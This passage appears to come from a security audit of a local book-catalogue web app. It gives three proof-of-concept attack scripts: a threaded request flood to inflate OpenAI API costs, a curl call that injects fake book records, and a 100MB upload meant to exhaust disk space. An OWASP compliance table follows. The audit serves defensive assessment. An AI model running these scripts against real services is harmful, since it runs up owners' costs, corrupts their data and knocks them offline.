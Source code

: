 ### Attack Scenario 1: API Cost Abuse
```python
# Automated attack script
import requests
import threading

def attack_scan():
    for _ in range(100):
        requests.post("http://localhost:8000/scan")

# Launch multiple threads
for _ in range(10):
    threading.Thread(target=attack_scan).start()

# Result: Potential $1000+ in OpenAI API costs
```

### Attack Scenario 2: Data Corruption
```bash
# Inject false data into the system
curl -X POST "http://localhost:8000/add_manual_title" \
  -H "Content-Type: application/json" \
  -d '{"title":"FAKE BOOK - DELETE THIS","isbn":"0000000000000"}'

# Result: Corrupted book database
```

### Attack Scenario 3: Resource Exhaustion
```python
# Large file upload DoS
import requests
large_file = b"A" * (100 * 1024 * 1024)  # 100MB
files = {"file": ("large.jpg", large_file, "image/jpeg")}
requests.post("http://localhost:8000/upload_photo", files=files)

# Result: Disk space exhaustion
```

## OWASP Top 10 Compliance Assessment

| OWASP 2021 Category | Compliance Status | Risk Score |
|---------------------|-------------------|------------|
| **A01: Broken Access Control** | ❌ Non-Compliant | **9/10** |
| **A02: Cryptographic Failures** | ⚠️ Partial | **6/10** |
| **A03: Injection** | ✅ Compliant | **2/10** |
| **A04: Insecure Design** | ⚠️ Partial | **5/10** |
| **A05: Security Misconfiguration** | ❌ Non-Compliant | **7/10** |
| **A06: Vulnerable Components** | ✅ Compliant | **1/10** |
| **A07: Authentication Failures** | ❌ Non-Compliant | **9/10** |
| **A08: Software Integrity Failures** | ⚠️ Partial | **4/10** |
| **A09: Logging Failures** | ❌ Non-Compliant | **6/10** |
| **A10: SSRF** | N/A | **N/A** |

